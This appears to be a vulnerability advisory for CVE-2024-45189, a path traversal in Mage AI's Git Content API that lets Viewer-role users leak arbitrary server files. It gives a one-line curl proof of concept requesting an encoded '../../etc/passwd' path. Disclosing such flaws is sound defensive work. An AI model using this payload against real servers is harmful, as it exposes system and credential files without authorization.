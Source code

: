 ```yaml
---
description: CVE-2024-45189, MEDIUM, Mage AI git content request remote arbitrary file leak
title: Mage AI git content request remote arbitrary file leak
date_published: "2024-08-23"
last_updated: "2024-08-23"
xray_id: JFSA-2024-001039604
vul_id: CVE-2024-45189
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Mage AI git content request remote arbitrary file leak

## Component

mage-ai

## Affected versions

(,)

## Description

Mage AI allows remote users with the "Viewer" role to leak arbitrary files from the Mage server due to a path traversal in the "Git Content" request

## PoC

```bash
curl -X GET
'http://localhost:6789/api/git_file/..%2F..%2Fetc%2Fpasswd?api_key=<USER API KEY>' -H 'Authorization: Bearer
<USER TOKEN>'
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

No references are supplied for this issue

